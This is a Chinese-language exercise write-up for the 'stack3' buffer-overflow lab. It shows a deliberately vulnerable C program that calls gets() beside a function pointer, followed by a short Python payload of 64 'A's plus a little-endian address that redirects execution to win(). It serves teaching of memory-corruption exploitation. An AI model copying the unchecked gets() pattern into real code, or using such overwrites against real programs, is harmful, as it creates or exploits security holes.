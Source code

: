 ```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
        printf("calling function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
}
```



## 攻击目标

使程序输出`calling function pointer, jumping to 0x08048424`，然后输出`code flow successfully changed`。



## 攻击过程

```shell
$ cat stack3_win.py
buffer = "A"*64
mod = "\x24\x84\x04\x08"
win = buffer + mod
print win
$ python stack3_win.py > stack3_win.txt	#写入txt文件
$ cat stack3_win.txt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$    	#64个A，最后3个字符为不可见字符
$ ./stack3 < stack3_win.txt
```

<img src=".\stack3-result.png" style="zoom:67%;" />
